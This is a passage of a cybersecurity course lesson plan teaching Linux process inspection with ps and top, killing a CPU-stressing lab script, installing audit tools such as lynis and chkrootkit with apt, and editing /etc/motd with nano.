root         2  0.0  0.0      0     0 ?        S    Jul24   0:00 [kthreadd]
root         4  0.0  0.0      0     0 ?        I<   Jul24   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        I<   Jul24   0:00 [mm_percpu_wq]
root         7  0.0  0.0      0     0 ?        S    Jul24   0:00 [ksoftirqd/0]
root         8  0.0  0.0      0     0 ?        I    Jul24   0:12 [rcu_sched]
root         9  0.0  0.0      0     0 ?        I    Jul24   0:00 [rcu_bh]
root        10  0.0  0.0      0     0 ?        S    Jul24   0:00 [migration/0]
root        11  0.0  0.0      0     0 ?        S    Jul24   0:00 [watchdog/0]
root        12  0.0  0.0      0     0 ?        S    Jul24   0:00 [cpuhp/0]
root        13  0.0  0.0      0     0 ?        S    Jul24   0:00 [cpuhp/1]
root        14  0.0  0.0      0     0 ?        S    Jul24   0:00 [watchdog/1]
root        15  0.0  0.0      0     0 ?        S    Jul24   0:00 [migration/1]
root        16  0.0  0.0      0     0 ?        S    Jul24   0:00 [ksoftirqd/1]
root        18  0.0  0.0      0     0 ?        I<   Jul24   0:00 [kworker/1:0H]
root        19  0.0  0.0      0     0 ?        S    Jul24   0:00 [cpuhp/2]
...
  ```


- This output lists all processes, sorted by the user who started them. It gives you a snapshot of _all_ of the processes running on the machine at the time you ran the command.

- This command is great if you want to take a look at every process running from all users and potentially investigate everything from a high level.

- You can use other command line programs like `cut`, `grep`, or `less` to make this output more manageable.

Filter the output for any line that contains `Bash`.

 - Run `ps aux | grep bash`

Your output should be similar to:

```bash
user      1319  0.0  0.0  21604  5520 pts/0    Ss   Jul24   0:00 bash
user     27778  0.0  0.0  21488  5360 pts/1    Ss   17:44   0:00 bash
user     29979  0.0  0.0  12720   936 pts/0    S+   18:56   0:00 grep bash
```

- This output is much more manageable than sorting through _every_ process manually.

Now that we understand the information report `top`, we’ll run our potentially malicious script to see if that information changes. This will indicate that the script is causing the system to run abnormally. 

In order to both run the process and inspect the results with `top`, you'll need two terminals: one to start the script, an another to run top.

- Open two terminals.

- Locate the suspicious `a9xk.sh` script in your `~/research` directory.

- Run `cat ~/research/a9xk.sh`

This script is using the `stress` command, so you will be looking for the `stress` process to kill it.

- Run `bash ~/research/a9xk.sh` in one of the terminals. The script runs a `sudo` command so you may need to enter a password.

In the second terminal, open `top` again.

- Press `x` again to sort by `%CPU`. You should see output similar to the image below.

  

You can easily see the `stress` command in the command column.

- The `%CPU` column reveals that this process is using a substantial amount of resources.

Use the `<` and `>` keys to sort by the `CPU` column. Then, sort by the `Memory` column.

CPU usage is very high, but memory is relatively low.

- This is because the malicious script causes the computer to perform a lot of computations, but does _not_ require much memory to do them.

- This demonstrates that _either_ high CPU usage _or_ high memory consumption can slow down a computer.

- Security professionals and systems administrators should inspect _both_ values to accurately identify why a machine might be running slowly.

Upon identifying a suspicious process, the natural next steps include:

1. Identifying the user who started it.

2. Killing the process.

In this case we can see that the `stress` command was started by root, because the script uses the `sudo` command. However, we’ll demonstrate how to search for processes started by a particular user:

- Press `u` to get a prompt in between the two panes.

- Enter `sysadmin` as the username to filter for your own processes.

In this case, you started the malicious process. However, if this process had been started by someone else, this command would reveal who it was.

We also cannot see the process for `a9xk.sh` here.

`top` contains the PID for the `stress` commands and this is all the information you need to kill them. However, for the sake of demonstration, we’ll use `ps aux` to give us this information. 

- Press `u`.

- Close  `top`.

- Run `ps aux  | less` to get a "snapshot" of all running processes in a more navigable output. 

Looking at _all_ the processes this way is a bit cumbersome.

- Run `ps a` and note that this gives us a much more manageable output and we can see the `stress` processes clearly.



Once we know what process we are looking for, we can now use the `kill` command to stop it. Running `kill <PID>` will send a signal to that process to stop what it is doing and return resources to the system before exiting.

- Run `sudo kill <PID for stress>`

- Run `ps a` again to prove that the process has been stopped.

Some programs must launch several processes in order to do their jobs. For example, an application like Spotify might need to start a network process to stream music, as well as a GUI process to display the user interface.

- If a program has several processes going, administrators can use `killall <process name>` to tell the OS to kill the target process and any sub-processes it has started.

- This command is also good if you do not know the PID of the specific process to kill, but do know the name of the application you want to close.

- Run `sudo killall stress`

- Run `ps a` to show that all the stress processes are stopped.

- Finally, run `top`. Its output now looks like it did originally.

Quitting those processes brought CPU usage back down, thus allowing the machine to run faster.


### 10. Activity: Process Investigation 

- [Activity File: Process Investigation](Activities/10_STU_Process_Investigation/Unsolved/README.md)
### 11. Activity Review: Review Process Investigation 

- [Solution Guide: Process Investigation](Activities/10_STU_Process_Investigation/Solved/README.md)
### 12. Installing Packages 

The suspicious files found in the first audit are a problem because a malicious user was able to save them to disk. 

Fortunately, just like on Windows and Mac machines, we can enhance our Linux experience and download additional tools and programs to help us do our jobs more efficiently. These additional tools are called **packages**: 

- Administrators often have no choice but to install additional software to properly harden the machines they manage.

- New packages are installed with a tool called a package manager. The package manager used by Ubuntu is called _aptitude_. We will use aptitude with the command `apt`.

Installing software with `apt` is very simple. The syntax is: `sudo apt install <package name>`.

- When you install a package with `apt`, Linux searches special databases to find information about `<package name>`. If it finds it, it will download and install the package.

- These databases are known as repositories. Repositories specifically used to store and distribute packages are known as Personal Package Archives, or PPAs.

- PPAs are simply servers where Linux software is stored and maintained.

In today's class you will install several packages that you will use throughout the week to secure their machine: 

- `lynis`: Checks that a Linux machine is properly secured.

- `john`: Verifies that users are using strong passwords.

- `chkrootkit`: Scans the machine for the presence of a particularly dangerous kind of malware called a _rootkit_.

- `tripwire`: Monitors the file system for suspicious changes.


#### Installing `lynis` Demo

 
Open a terminal in your lab environment. 

- Run: `sudo apt install lynis`

Since `apt` is an administrator's command, it must be run with `sudo`, which allows normal users to perform potentially dangerous tasks, such as installing new software or deleting important files. 

This raises the prompt: `Do you want to continue? [y/n]`

- Type `y` for yes. This allows the program to continue.

`apt` will now download and install the package. Wait for the command to complete. 

- Run: `lynis --help` to show that the command was successfully installed.

Using `apt` to install software is practically a daily task for sysadmins, and makes installing new software straightforward.

### 13. Activity: Installing Packages 
 - [Activity File: Installing Packages](Activities/13_STU_Installing_Packages/Unsolved/README.md)

### 14. Activity Review: Installing Packages
 - [Solution Guide: Installing Packages](Activities/13_STU_Installing_Packages/Solved/README.md)
### 15. Write-Along with Nano 

Being able to edit files on the command line is essential for any serious Linux users.

Thus far, we have investigated system files, stopped malicious processes, and installed a few tools to help us audit this system. Now, we will need to keep lists of things we find as well as edit system files and configuration files.

Because many Linux systems do not have a  GUI, editing system and configuration files on the command line is a common task and essential skill for administrators.


There are several text editors we can use to edit files, but in this class we will use the text editor Nano.

- Nano is included by default in almost all Linux distributions, so it's available on nearly every system you'll ever use.

- The other popular command-line text editors are emacs and vim. While extremely powerful, these editors have a steep learning curve, and are more appropriate for practicing professionals who work on headless systems often.

#### Nano Demonstration

In the upcoming demo, the senior administrator has asked that we set this system up with a message to display to all users who log in to the system. This will let them know that the system is "down for maintenance" and should not be used. This will allow us to conduct our audit without users making further changes.

To create this message, we need to use Nano to create and edit the `/etc/motd` file. 

- `motd` stands for “message of the day," and it will display a message to any user who logs in successfully. 

- We will also add a message to the `motd` file that warns users not to use or alter the system while it is down for maintenance.

Open a terminal. 

- Run: `nano /etc/motd`

This command opens a new file for editing, and we can type in this file as if it were a normal text editor. 

Note the following about navigation and commands: 

- You can navigate between lines by using the arrow keys.

- The commands at the bottom of the window show how to save, exit, etc.

- The `^` character in the commands at the bottom of the window refer to the `CTRL` button

Type: `WARNING: System will go up and down for maintenance for the remainder of the day. Please avoid using this system if possible. If the system must be used, avoid any file modifications or configuration changes. Contact your system administrator with any questions you have about this downtime.`

- Type: `CTRL + x` to stop editing.

- Press `y` to save your file. This saves the new file to disk.

- Press `Enter` to exit Nano.

- Run `ls /etc`

A `motd` file has been created in `/etc`.

- Run `cat /etc/motd` to show that it contains the message you typed earlier.

Open a new terminal. The message you entered in `/etc/motd` now appears as soon as you log in.

You can also use `nano` to read and edit files that already exist. This is no different from creating a new file. Simply type `nano path/to/file`, and continue editing.

- Run `nano /etc/motd` again to demonstrate opening the file for reading.

- Run `CTRL+x` to close it again.

-------

### Copyright

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
